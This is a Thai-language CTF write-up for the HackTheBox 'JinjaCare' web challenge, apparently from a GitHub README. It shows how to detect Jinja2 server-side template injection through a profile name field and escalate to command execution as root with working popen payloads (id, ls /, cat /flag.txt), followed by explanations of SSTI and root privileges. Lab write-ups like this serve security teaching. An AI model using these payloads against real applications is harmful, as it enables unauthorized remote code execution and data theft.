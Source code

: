 Hi, Can you speak Thai ?

Yes, I can speak Thai.

มา วันนี้เราจะมาทำข้อ JinjaCare หมวด Web ระดับ Very easy


Step 1 สร้างบัญชี
เขาจะให้ IP มา คือ 94.237.121.100:50594 จากนั้นเราก็เข้าไปที่ Sign In แล้วเลือก create a new account ในส่วนของข้อมูลที่ใช้สมัคร เราสามารถสมมติขึ้นมาเองได้เลย


Step 2 49

2.1 ไปที่ Personal Info ใส่วันเดือนปีเกิด ในส่วนนี้เราสามารถปลอมแปลงได้ 

2.2 ไปที่ Full Name เปลี่ยนข้อมูลจากชื่อเป็น {{7*7}} กด Save Changes

2.3 กลับไปที่ Dashboard กด Download Certificate

2.4 สังเกตตรง Name มันจะเป็น 49 ถ้าไม่ใช่ 49 ให้กลับไปดูตรง Full Name ในหน้า Personal Info ใหม่


Step 3 id
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution
```
นี่คือลิงก์เกี่ยวกับ Server Side Template Injection

3.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{7*7}}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
3.2 กลับไปที่ Dashboard กด Download Certificate

3.3 สังเกตตรง Name มันจะเปลี่ยนเป็น uid=0(root) gid=0(root) groups=0(root)


Step 4 ls

4.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }} 
```
เป็น 
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
4.2 สังเกตตรง Name มันจะเปลี่ยนเป็น app bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var


Step 5 cat flag.txt

5.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```
5.2 สังเกตตรง Name มันจะเปลี่ยนเป็น HTB{XXXXX}
XXXXX ไม่ใช้ flag นะ คือปิดไว้ จะได้ทำเอง

อธิบาย SSTI
- SSTI หรือ Server-Side Template Injection คือช่องโหว่ที่เกิดขึ้นเมื่อแอปพลิเคชันนำข้อมูลจากผู้ใช้ไปใส่ลงใน template ของฝั่งเซิร์ฟเวอร์โดยตรง ทำให้ข้อความนั้นถูกตีความหรือประมวลผลเป็นโค้ดของ template engine แทนที่จะเป็น "ข้อมูล" แบบนิ่ง (literal) ผลคือผู้โจมตีสามารถทำให้ template engine ประมวลผลนิพจน์ที่เขาส่งมาผ่านอินพุต และนั่นอาจนำไปสู่การเปิดเผยข้อมูลภายใน (ข้อมูลความลับ) หรือ การรันโค้ดบนเซิร์ฟเวอร์ (RCE) ขึ้นอยู่กับความสามารถของ engine
- Template engine คือ ซอฟต์แวร์ที่ช่วยให้นักพัฒนาเว็บสามารถแยกส่วนของโค้ด HTML ออกจากข้อมูลแบบไดนามิกได้ โดยจะประมวลผลเทมเพลตและแทนที่ตัวแปรต่างๆ ด้วยข้อมูลจริงก่อนที่จะสร้างเป็น HTML สุดท้าย การทำเช่นนี้ช่วยเพิ่มความสามารถในการอ่าน, นำโค้ดกลับมาใช้ใหม่, และจัดการโค้ดให้ง่ายขึ้น
- uid=0(root) gid=0(root) groups=0(root) มันหมายความว่า กระบวนการหรือเชลล์นั้นกำลังรันด้วยสิทธิ์ของผู้ใช้ root (ผู้ดูแลระบบ)
  อธิบายแต่ละส่วนแบบชัด ๆ
  uid=0(root) — UID (user identifier) = 0 ซึ่งตามมาตรฐานคือ ผู้ใช้ root (superuser)
  gid=0(root) — GID (group identifier) = 0 ซึ่งคือกลุ่ม root
  groups=0(root) — รายชื่อกลุ่มที่ผู้ใช้นั้นเป็นสมาชิก (ในที่นี้เป็นเพียงกลุ่ม root)
  ความหมายเชิงปฏิบัติ
  ถ้าคุณเห็นสตริงนี้สำหรับเชลล์หรือ process แปลว่า process นั้นมีสิทธิ์เต็ม (privileged) สามารถอ่านหรือเขียนไฟล์สำคัญของระบบ, เปลี่ยนการตั้งค่าระบบ, ติดตั้ง/ลบแพ็กเกจ, เปลี่ยนสิทธิ์ผู้ใช้ ฯลฯ โดยสรุปคือสามารถทำอะไรก็ได้บนเครื่อง (administrator powers)
  เป็นสถานะที่อันตรายถ้ากำลังรันโปรแกรมไม่เชื่อถืออยู่ใน context นี้ เพราะจะทำให้มัลแวร์หรือคำสั่งผิดพลาดทำความเสียหายได้มาก
- ถ้าแอปเอา "{{7*7}}" เข้าไปและ engine ประมวลเป็น 49 แปลว่าระบบตีความข้อมูลเป็นโค้ด นี่ไม่ใช่การปฏิบัติต่อข้อมูลแบบนิ่งและเสี่ยงเกิด SSTI

ศัพท์น่าสงสัย

"ข้อมูล" แบบนิ่ง (literal) คือ ค่าข้อมูลที่ถูกกำหนดไว้อย่างชัดเจนและคงที่ในโค้ดหรือเทมเพลตนั้น ๆ โดยตรง ไม่ใช่ค่าที่ได้จากการคำนวณ ตัวแปร หรือการดึงข้อมูลจากแหล่งภายนอก
ลักษณะของข้อมูลแบบนิ่ง (Literal Data) ข้อมูลแบบนิ่งจะถูกตีความตามที่เห็น โดยไม่ต้องมีการประมวลผลหรือค้นหาเพิ่มเติม มักเป็นประเภทข้อมูลพื้นฐาน เช่น Literal String, Literal Number เป็นต้น
ตัวอย่าง:

ลิงก์ข้อมูลเพิ่มเติม
1. Template engine
```
https://medium.com/@itz.dhruv/comprehensive-guide-to-template-engines-in-node-js-with-express-c953a47dfa9d
```
2. ChatGPT และ Gemini สามารถนำข้อมูลไปให้มันขยายความได้
